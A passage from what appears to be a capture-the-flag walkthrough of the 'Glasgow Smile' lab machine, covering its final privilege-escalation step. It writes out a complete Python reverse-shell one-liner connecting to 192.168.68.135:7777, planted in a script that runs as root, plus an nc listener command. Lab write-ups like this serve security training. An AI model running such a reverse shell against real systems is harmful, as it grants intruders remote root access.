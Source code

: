 ![Glasgow Smile pspy64 trash_old](/assets/img/Glasgow43.png)

Now that we know this runs as root, we add the ! before /bin/sh, comment out the exit 0 command, and add in this 1 liner to create a reverse shell `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.68.135",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

![Glasgow Smile update trash_old](/assets/img/Glasgow44.png)

In another terminal window on the attacker machine, run `nc -nvlp 7777` and within a couple of minutes you will have a root connection.

![Glasgow Smile root](/assets/img/Glasgow45.png)

Now, all that's left is to cat root.txt.

![Glasgow Smile root.txt](/assets/img/Glasgow46.png)








